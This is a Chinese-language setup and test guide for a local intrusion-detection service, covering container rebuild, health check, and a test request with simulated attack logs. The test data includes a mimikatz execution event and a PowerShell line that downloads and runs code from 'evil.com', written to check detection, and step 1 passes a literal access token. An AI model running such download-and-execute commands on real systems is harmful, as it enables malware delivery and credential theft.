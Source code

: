 ### 步驟 1: 重建容器

```bash
cd ~/Documents/GitHub/Local_IPS-IDS/Application

# 完整重建
./rebuild-quantum.sh --clean --token "7PzS0AdaFB83OVn7WghkdLupzthCe1fTl3yI4Qrp7G6o"

# 或僅重建（快速）
docker-compose build cyber-ai-quantum
docker-compose up -d cyber-ai-quantum

# 等待服務就緒
sleep 10
```

### 步驟 2: 驗證健康狀態

```bash
curl http://localhost:8000/health
```

**預期結果**:
```json
{
  "status": "healthy",
  "services": {
    "ml_detector": true,
    "quantum_crypto": true,
    "ai_governance": true,
    "dataflow_monitor": true
  }
}
```

### 步驟 3: 測試改進的風險評估

```bash
# 發送高風險日誌
curl -X POST http://localhost:8000/api/v1/agent/log \
  -H "Content-Type: application/json" \
  -d '{
    "agent_id": "TEST_HIGH_RISK",
    "hostname": "COMPROMISED-SERVER",
    "timestamp": "2025-10-15 10:00:00",
    "logs": [
      {"event_id": 4625, "user": "admin", "source_ip": "192.168.1.100"},
      {"event_id": 4625, "user": "admin", "source_ip": "192.168.1.101"},
      {"event_id": 4688, "process_name": "mimikatz.exe", "command_line": "mimikatz.exe"},
      {"event_id": 4104, "script_block": "IEX (New-Object Net.WebClient).DownloadString(\"http://evil.com\")"},
      {"event_id": 1102, "user": "admin", "message": "Security log cleared"}
    ]
  }'
```

